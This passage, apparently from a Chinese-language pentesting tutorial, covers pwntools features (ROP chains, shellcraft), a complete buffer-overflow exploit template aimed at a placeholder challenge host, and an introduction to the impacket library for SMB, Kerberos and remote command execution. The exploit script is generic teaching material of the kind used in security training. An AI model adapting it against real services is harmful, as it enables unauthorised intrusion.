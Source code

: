 - **ROP 链生成**：`ROP` 类可以帮助你自动搜索 gadgets 并生成 ROP 链。

- **Shellcode**：`asm()` 和 `shellcraft` 模块允许你编写和编译汇编代码。

### 示例：完整的缓冲区溢出漏洞利用脚本

以下是一个完整的示例，展示了如何结合上述元素来编写一个简单的缓冲区溢出漏洞利用脚本：

```python
from pwn import *

# 目标信息
host = 'challenge.example.com'
port = 1234

# 建立连接
conn = remote(host, port)

# 偏移量和 shell 地址
offset = 64
shell_addr = 0xdeadbeef  # 请替换为实际地址

# 构造 payload
payload = b'A' * offset + p32(shell_addr)

# 发送 payload 并进入交互模式
conn.sendline(payload)
conn.interactive()

# 关闭连接
conn.close()
```

请注意，在真实环境中，你需要根据具体情况调整偏移量、shell 地址和其他参数。



## 使用impacket 库进行网络协议操作?
`impacket` 是一个用于操作各种网络协议的 Python 库，它允许你执行多种任务，如身份验证、远程命令执行、文件传输等。`impacket` 支持多个协议，包括 SMB、Kerberos、LDAP、NTLM 等，并且广泛应用于渗透测试和安全研究中。

### 安装 impacket

首先，确保安装了 `impacket` 库。你可以通过 pip 来安装：

```bash
pip install impacket
```

对于某些功能（如 Kerberos），你可能还需要安装额外的依赖项，例如 `pyasn1` 和 `pycryptodomex`。

### 使用 impacket 进行网络协议操作

下面是一些使用 `impacket` 操作不同网络协议的例子。
